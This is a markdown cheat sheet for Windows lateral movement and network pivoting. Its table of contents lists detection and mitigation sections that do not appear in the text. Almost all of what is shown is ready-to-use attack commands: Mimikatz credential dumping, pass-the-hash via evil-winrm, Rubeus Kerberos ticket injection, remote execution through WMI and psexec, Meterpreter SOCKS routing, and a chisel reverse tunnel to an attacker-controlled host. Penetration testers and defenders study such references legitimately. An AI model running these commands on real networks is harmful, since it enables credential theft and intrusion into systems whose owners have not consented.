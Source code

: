   
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#Pivoting Through Compromised Hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations--best-practices)
6. [Conclusion](#conclusion)

  ---

## 🛠 Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## 🔀 Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```
